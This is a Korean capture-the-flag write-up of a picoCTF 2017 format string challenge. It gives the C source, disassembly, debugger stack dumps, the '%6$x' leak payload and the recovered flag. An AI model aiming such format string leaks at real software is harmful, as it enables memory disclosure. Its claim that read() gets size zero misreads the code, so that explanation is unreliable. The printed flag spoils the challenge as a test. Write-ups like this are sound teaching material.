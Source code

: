 `#FSB`
# 목차
1. [Description](#description)
2. [분석](#분석)
	1. [목표 확인](#목표-확인)
	2. [취약점 확인 (FSB)](#취약점-분석-fsb)
3. [공격 루틴](#공격-루틴)
	1. [secret 은 몇번째인지](#secret-은-몇번째인지)
4. [Flag](#flag)
## Description
> 바이너리 [secret](https://webshell2017.picoctf.com/static/2d756322664bc048224f02ad0a62a0bc/secret) 랑 [소스코드](https://webshell2017.picoctf.com/static/2d756322664bc048224f02ad0a62a0bc/secret.c)가 주어진다.  
> nc  shell2017.picoctf.com 55189  
  
```
     1  #include <stdio.h>
     2  #include <fcntl.h>
     3  #include <unistd.h>
     4  #include <stdlib.h>
     5
     6  #define BUF_LEN 64
     7  char buffer[BUF_LEN];
     8
     9  int main(int argc, char** argv) {
    10      int fd = open("/dev/urandom", O_RDONLY);
    11      if(fd == -1){
    12          puts("Open error on /dev/urandom. Contact an admin\n");
    13          return -1;
    14      }
    15      int secret;
    16      if(read(fd, &secret, sizeof(int)) != sizeof(int)){
    17          puts("Read error. Contact admin!\n");
    18          return -1;
    19      }
    20      close(fd);
    21      printf("Give me something to say!\n");
    22      fflush(stdout);
    23      fgets(buffer, BUF_LEN, stdin);
    24      printf(buffer);
    25
    26      int not_secret;
    27      printf("Now tell my secret in hex! Secret: ");
    28      fflush(stdout);
    29      scanf("%x", &not_secret);
    30      if(secret == not_secret){
    31          puts("Wow, you got it!");
    32          system("cat ./flag.txt");
    33      }else{
    34          puts("As my friend says,\"You get nothing! You lose! Good day, Sir!\"");
    35      }
    36
    37      return 0;
    38  }
```
## 분석
### 목표 확인
```
    30      if(secret == not_secret){
    31          puts("Wow, you got it!");
    32          system("cat ./flag.txt");
    33      }
```
secret 과 not_secret 이 같아야 키값을 얻을 수 있습니다.  

```
    15      int secret;
```
secret 은 무엇이냐면  
정수형 변수이고  

```
    16      if(read(fd, &secret, sizeof(int)) != sizeof(int)){
    17          puts("Read error. Contact admin!\n");
    18          return -1;
    19      }
```
fd 라는 파일디스크립터로부터 읽어들입니다.  
그런데 read 의 매개변수 중  
세번째에 들어가는 값은 False.  
즉, size=0  
  
한마디로 한 바이트도 읽어들이지 않고  
또 초기화되지 않았으므로  
secret 에 저장되는 값은 쓰레기값 되시겠다.  
  
__if문의 조건문은 항상 False(0) 이니깐  
admin에게 연락할 일 없겠군요__  

```
    26      int not_secret;
    27      printf("Now tell my secret in hex! Secret: ");
    28      fflush(stdout);
    29      scanf("%x", &not_secret);
```
not_secret 은  
29번째 줄에서  
16진수 소문자로  
입력받는다.  

### 취약점 분석 (FSB)
```
    24      printf(buffer);
```
24번째 줄을  보면  
포맷 스트링 버그가 보입니다.  
그럼 buffer 는 어디에서 받느냐!  

```
    23      fgets(buffer, BUF_LEN, stdin);
```
fgets 에서 입력받는다.  
딱 BUF_LEN 만큼 받는데  

```
     6  #define BUF_LEN 64
```
그 크기는 64 이다.  

## 공격 루틴
아하!  
secret 에 쓰레기값이 저장되고  
24번째 줄에서 FSB로 secret 을 leak 하고  
29번째 줄에서 not_secret 에 값을 입력하면 되는구나!  

### secret 은 몇번째인지
FSB 를 사용하려면 secret 이 몇번째인지 알아야한다.  

```
# file ./secret
./secret: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=25d674d62f2f6070f9f87664bbd5b6aa5c045ef0, not stripped
```
일단 32비트 바이너리이고  

```
   0x08048636 <+75>:    lea    eax,[ebp-0x10]
   0x08048639 <+78>:    push   eax
   0x0804863a <+79>:    push   DWORD PTR [ebp-0xc]
   0x0804863d <+82>:    call   0x8048440 <read@plt>
```
32비트 바이너리는 제일 마지막에 push 되는 데이터가 첫번째 매개변수이다.  
main+75 를 보면 ebp-0x10 이 secret 이다.  

```
# nc shell2017.picoctf.com 55189
Give me something to say!
%x %x %x %x %x %x %x %x %x
40 f7fc7c20 8048792 1 ffffdd34 d7838ff3 3 f7fc73c4 ffffdca0
Now tell my secret in hex! Secret:
```
```
pwndbg> stack
00:0000│ esp  0xffffd220 —▸ 0x8049b40 (buffer) ◂— 0x70257025 ('%p%p')
01:0004│      0xffffd224 ◂— 0x40 /* '@' */
02:0008│      0xffffd228 —▸ 0xf7f9b5c0 (_IO_2_1_stdin_) ◂— 0xfbad2288
03:000c│      0xffffd22c —▸ 0x8048792 (__libc_csu_init+82) ◂— add    edi, 1
04:0010│      0xffffd230 ◂— 0x1
05:0014│      0xffffd234 —▸ 0xffffd2f4 —▸ 0xffffd445 ◂— 0x746e6d2f ('/mnt')
06:0018│      0xffffd238 ◂— 0x11aad860
07:001c│      0xffffd23c ◂— 0x3
08:0020│      0xffffd240 —▸ 0xf7fe59a0 ◂— push   ebp
09:0024│      0xffffd244 —▸ 0xffffd260 ◂— 0x1
0a:0028│ ebp  0xffffd248 ◂— 0x0
```
```
pwndbg> x/wx $ebp-0x10
0xffffd238:     0x11aad860
```
비교해보니 6번째라는 것을 알았다.  

## Flag
```
# nc shell2017.picoctf.com 55189
Give me something to say!
%6$x
a6aa3c3a
Now tell my secret in hex! Secret: a6aa3c3a
a18450ba7aaa8c085c522cdef6ab35ab
Wow, you got it!
```
